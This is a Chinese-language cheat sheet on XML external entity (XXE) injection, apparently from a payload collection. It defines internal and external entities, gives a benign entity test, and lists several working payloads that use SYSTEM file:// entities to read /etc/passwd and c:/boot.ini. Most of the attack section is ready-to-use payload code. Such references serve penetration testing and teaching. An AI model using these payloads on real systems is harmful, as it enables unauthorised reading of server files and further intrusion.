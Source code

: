 ## 检测漏洞

**内部实体**: 如果实体在DTD内声明，则称为内部实体。
语法: `<!ENTITY entity_name "entity_value">`

**外部实体**: 如果实体在DTD外声明，则称为外部实体。通过`SYSTEM`识别。
语法: `<!ENTITY entity_name SYSTEM "entity_value">`

基本实体测试，当XML解析器解析外部实体时，结果应在`firstName`中包含"John"，在`lastName`中包含"Doe"。实体在`DOCTYPE`元素内定义。

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

在向服务器发送XML有效负载时，可能有助于设置`Content-Type: application/xml`。

## 利用XXE检索文件

### 经典XXE

我们尝试显示`/etc/passwd`文件的内容。

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

:warning: `SYSTEM`和`PUBLIC`几乎是同义词。
